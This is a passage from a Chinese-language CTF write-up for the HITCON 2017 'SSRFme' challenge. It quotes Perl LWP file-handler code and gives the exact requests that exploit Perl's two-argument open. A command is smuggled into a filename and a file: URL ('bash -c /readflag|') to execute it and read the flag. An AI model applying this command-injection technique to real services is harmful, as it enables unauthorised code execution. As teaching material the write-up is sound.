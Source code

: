 ```perl
	    HTTP::Response(&HTTP::Status::RC_INTERNAL_SERVER_ERROR,
			   "Cannot read file '$path': $!");
	binmode(F);
	$response =  $self->collect($arg, $response, sub {
	    my $content = "";
	    my $bytes = sysread(F, $content, $size);
	    return \$content if $bytes > 0;
	    return \ "";
	});
	close(F);
    }
...
```
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件, 所以先请求
```/?url=file:bash -c /readflag|&filename=bash -c /readflag|``` 创建相应的同名文件
```/?url=file:bash -c /readflag|&filename=123``` 利用open的feature执行代码
最后直接访问**/sandbox/哈希值/123**就能得到flag

(安利一个文本查找工具https://blog.lilydjwg.me/tag/AG)

参考:
https://github.com/orangetw/My-CTF-Web-Challenges
http://momomoxiaoxi.com/2017/11/08/HITCON/
https://ricterz.me/posts/HITCON%202017%20SSRFme

